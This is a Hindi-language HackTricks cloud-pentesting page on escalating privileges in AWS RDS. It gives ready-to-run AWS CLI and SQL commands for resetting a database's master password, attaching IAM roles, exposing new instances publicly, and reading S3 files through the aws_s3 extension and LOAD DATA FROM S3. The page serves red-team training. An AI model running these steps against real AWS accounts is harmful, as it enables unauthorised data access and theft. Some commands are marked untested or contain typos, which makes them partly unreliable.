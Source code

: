 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - रिलेशनल डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

उस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क करने** में सक्षम होना चाहिए (वे आमतौर पर केवल आंतरिक नेटवर्क से सुलभ होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़ों**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति के साथ एक उपयोगकर्ता DB इंस्टेंस से कनेक्ट कर सकता है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग

#### Postgresql (Aurora)

{% hint style="success" %}
यदि आप **`SELECT datname FROM pg_database;`** चलाते हैं और आपको **`rdsadmin`** नामक एक डेटाबेस मिलता है, तो आप जानते हैं कि आप एक **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुँचने के लिए किया गया है। आप स्थापित एक्सटेंशन को देखकर यह जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप मान सकते हैं कि इस डेटाबेस के पास **S3 पर कुछ प्रकार की पहुंच है** (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप वहां देख सकते हैं कि **क्लस्टर में कोई IAM भूमिका संलग्न है** या नहीं, क्षेत्र **`AssociatedRoles`** में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुंचने के लिए तैयार किया गया था**। **भूमिका के नाम** के आधार पर (या यदि आप भूमिका के **अनुमतियों** को प्राप्त कर सकते हैं) आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास क्या अतिरिक्त पहुंच है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** हैं, तो आप उन्हें S3 डेटा तक पहुँचने के लिए भी उपयोग कर सकते हैं:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **को S3 तक पहुँचने के लिए किसी भी पैरामीटर समूह के चर को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql के अंदर, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

Mysql के अंदर **`show variables;`** चलाएँ और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप देख सकते हैं कि क्या क्लस्टर के पास कोई **संबंधित भूमिका** है, जिसका आमतौर पर मतलब AWS सेवाओं तक पहुँच है।

अब, एक **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंच** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे पैरामीटर समूहों में भूमिका ARN निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

इस अनुमति के साथ एक हमलावर एक **क्लस्टर के अंदर एक नया उदाहरण** बना सकता है जो पहले से मौजूद है और जिसमें एक **IAM भूमिका** संलग्न है। वह मास्टर उपयोगकर्ता पासवर्ड को बदलने में असमर्थ होगा, लेकिन वह नए डेटाबेस उदाहरण को इंटरनेट पर उजागर करने में सक्षम हो सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: टेस्ट करें
{% endhint %}

`rds:CreateDBInstance` और `iam:PassRole` अनुमतियों के साथ एक हमलावर **एक निर्दिष्ट भूमिका के साथ एक नया RDS उदाहरण बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुँच** या उदाहरण के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
संलग्न करने के लिए भूमिका/उदाहरण-प्रोफ़ाइल की कुछ आवश्यकताएँ (से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल आपके खाते में मौजूद होनी चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 द्वारा ग्रहण करने की अनुमति हो।
* उदाहरण प्रोफ़ाइल का नाम और संबंधित IAM भूमिका का नाम `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBInstance` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुँच** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।

{% hint style="warning" %}
DB उदाहरण को इस के लिए क्लस्टर के बाहर होना चाहिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
